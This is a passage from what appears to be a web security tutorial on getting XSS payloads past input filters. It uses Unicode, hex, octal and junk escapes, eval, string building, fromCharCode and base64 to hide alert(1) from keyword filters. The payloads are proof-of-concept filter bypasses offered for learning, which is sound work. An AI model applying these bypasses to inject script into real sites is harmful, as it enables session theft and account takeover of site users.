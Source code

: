 But JavaScript is flexible—*really flexible.* It allows **multiple encodings**, **runtime string building**, and **language mixing**. You can use this power to *bypass broken filters*.

---

## 🔓 JavaScript Escaping Tricks

### 🔸 Unicode Escaping

JavaScript lets you insert characters with `\uXXXX`.

```html
<script>a\u006cert(1)</script> 
```

🧠 Why it works:

* `\u006c` is `l`. So this becomes `alert(1)`.
* If the filter looks for `"alert"` literally, this bypasses it.
* Browsers decode this **before** script parsing.

---

### 🔸 Hex and Octal Escapes inside `eval()`

```html
<script>eval('a\x6cert(1)')</script>   // hex
<script>eval('a\154ert(1)')</script>   // octal
```

🧠 Why it works:

* `\x6c` = `l`, `\154` (octal) = `l`
* Still resolves to `alert(1)`, just written weirdly.

---

### 🔸 Fake Escapes / Garbage in Strings

```html
<script>eval('a\l\ert\(1\)')</script>
```

🧠 Why it works:

* JavaScript ignores garbage escape sequences in **strings**, so this gets interpreted as `'alert(1)'`.

---

## 🧱 Dynamically Constructed Strings

You can **build dangerous strings on the fly**:

```html
<script>eval('al' + 'ert(1)')</script>
<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>
<script>eval(atob('YWxlcnQoMSk='))</script>  // base64 encoded 'alert(1)'
```
